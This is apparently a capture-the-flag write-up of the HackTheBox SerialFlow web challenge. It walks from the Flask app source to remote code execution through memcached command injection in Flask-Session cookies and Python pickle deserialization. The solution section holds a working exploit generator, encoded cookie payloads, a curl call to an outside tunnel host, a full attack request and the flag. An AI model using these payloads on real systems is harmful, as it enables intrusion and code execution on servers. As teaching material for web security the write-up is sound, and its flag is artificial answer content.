 ```yaml
---
name: SerialFlow (2024)
event: HackTheBox Cyber Apocalypse CTF 2024
category: Web
description: Writeup for SerialFlow (Web) - HackTheBox Cyber Apocalypse CTF (2024) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# SerialFlow

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/-vhl8ixthO4/0.jpg)](https://www.youtube.com/watch?v=-vhl8ixthO4?t=1530 "HackTheBox Cyber Apocalypse '24: Serial Flow (web)")

## Description

> SerialFlow is the main global network used by KORP, you have managed to reach a root server web interface by traversing KORP's external proxy network. Can you break into the root server and open pandoras box by revealing the truth behind KORP?

## Source

We can download the source code and see most of the app's functionality is in `app.py`.

```python
import pylibmc, uuid, sys
from flask import Flask, session, request, redirect, render_template
from flask_session import Session

app = Flask(__name__)

app.secret_key = uuid.uuid4()

app.config["SESSION_TYPE"] = "memcached"
app.config["SESSION_MEMCACHED"] = pylibmc.Client(["127.0.0.1:11211"])
app.config.from_object(__name__)

Session(app)

@app.before_request
def before_request():
    if session.get("session") and len(session["session"]) > 86:
        session["session"] = session["session"][:86]

@app.errorhandler(Exception)
def handle_error(error):
    message = error.description if hasattr(error, "description") else [str(x) for x in error.args]

    response = {
        "error": {
            "type": error.__class__.__name__,
            "message": message
        }
    }

    return response, error.code if hasattr(error, "code") else 500

@app.route("/set")
def set():
    uicolor = request.args.get("uicolor")

    if uicolor:
        session["uicolor"] = uicolor

    return redirect("/")

@app.route("/")
def main():
    uicolor = session.get("uicolor", "#f1f1f1")
    return render_template("index.html", uicolor=uicolor)
```

## Solution

Once again, the goal is clearly RCE since we have a `flag.txt` file at `/flag` with a randomised name.

I wasted a lot of time on rabbit holes and realise in hindsight, I should of investigated the `memcached` session stuff as it stands out as unusual.

A quick Google search of `memcached python vuln` returns some [general pentesting techniques](https://book.hacktricks.xyz/network-services-pentesting/11211-memcache) but also an interesting [PoC video](https://www.youtube.com/watch?v=aNqXNdFf28w) titled `Remote Code Execution (RCE) in Python pylibmc through memcached injection`. However, the exploit was demonstrated 10 years ago at [BlackHat 2014](https://www.youtube.com/watch?v=K4OWPdMLi64) so it's unlikely to be applicable, right?

Well, if we adjust our search options to "in the past year" one of the top results is the [Top 10 web hacking techniques](https://portswigger.net/research/top-10-web-hacking-techniques-of-2023-nominations-open) from Portswigger. Guess which vulnerability is featured there? 😼

That's right! [Exploiting Flask-Session with Memcached command injection utilizing crc32 collision and python pickle deserialization for RCE](https://btlfry.gitlab.io/notes/posts/memcached-command-injections-at-pylibmc) by D4D.

The article explains the exploit better than I can but essentially, we can leverage the `/set` route to set the Flask session cookie value for the key `uicolor`. Memcached terminates commands and data sequences using CRLF so we want to inject `\r\n` using quoted strings (`\015\012`).

Next, we want to encode a payload. Since [python pickle](https://docs.python.org/3/library/pickle.html) is used to deserialise data before saving to Memcached, we can [construct a malicious pickle](https://davidhamann.de/2020/04/05/exploiting-python-pickle/) that when deserialised, will trigger RCE.

Let's jump straight into testing the PoC! The only thing I changed is the command to `curl` (we want to verify the command executes) and the cache key/name to `420`.

```python
import pickle
import os

class RCE:
    def __reduce__(self):
        cmd = ('curl https://cat.tunnelto.dev')
        return os.system, (cmd,)

def generate_exploit():
    payload = pickle.dumps(RCE(), 0)
    payload_size = len(payload)
    cookie = b'137\r\nset BT_:420 0 2592000 '
    cookie += str.encode(str(payload_size))
    cookie += str.encode('\r\n')
    cookie += payload
    cookie += str.encode('\r\n')
    cookie += str.encode('get BT_:420')

    pack = ''
    for x in list(cookie):
        if x > 64:
            pack += oct(x).replace("0o", "\\")
        elif x < 8:
            pack += oct(x).replace("0o", "\\00")
        else:
            pack += oct(x).replace("0o", "\\0")

    return f"\"{pack}\""


print(generate_exploit())
```

We generate the payload, then simply replace our cookie value and make a call to the `/set` endpoint.

```bash
"\061\063\067\015\012\163\145\164\040\102\124\137\072\064\062\060\040\060\040\062\065\071\062\060\060\060\040\066\061\015\012\143\160\157\163\151\170\012\163\171\163\164\145\155\012\160\060\012\050\126\143\165\162\154\040\150\164\164\160\163\072\057\057\143\141\164\056\164\165\156\156\145\154\164\157\056\144\145\166\012\160\061\012\164\160\062\012\122\160\063\012\056\015\012\147\145\164\040\102\124\137\072\064\062\060"
```

I struggled for a while here, until I realised that `curl` is not installed on the machine lol 🤦‍♂️ If we change the command to `whoami` and test locally, we'll see `root` pop up in the logs 🙏

Furthermore, if we update the command to `cat /flag*.txt`, the flag will be printed in the server terminal! The problem is, we can't see the output on the remote instance 🤔

I tried to get a reverse shell, but it never made the connection (although I heard later others did have success with this). Ultimately, I ended up changing the `cmd` to `cp /flag*.txt application/templates/index.html`.

```bash
GET /set?uicolour=cat HTTP/1.1
Host: 127.0.0.1:1337
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: close
Cookie: session="\061\063\067\015\012\163\145\164\040\102\124\137\072\064\062\060\040\060\040\062\065\071\062\060\060\060\040\067\070\015\012\143\160\157\163\151\170\012\163\171\163\164\145\155\012\160\060\012\050\126\143\160\040\057\146\154\141\147\052\056\164\170\164\040\141\160\160\154\151\143\141\164\151\157\156\057\164\145\155\160\154\141\164\145\163\057\151\156\144\145\170\056\150\164\155\154\012\160\061\012\164\160\062\012\122\160\063\012\056\015\012\147\145\164\040\102\124\137\072\064\062\060"
```

We might need to send the request several times, as the server seems to crash regularly. Eventually, the command will execute and `index.html` will be replaced with the flag. Therefore, when we follow the redirect, the flag is displayed.

Flag: `HTB{y0u_th0ught_th15_wou1d_b3_s1mpl3?}`
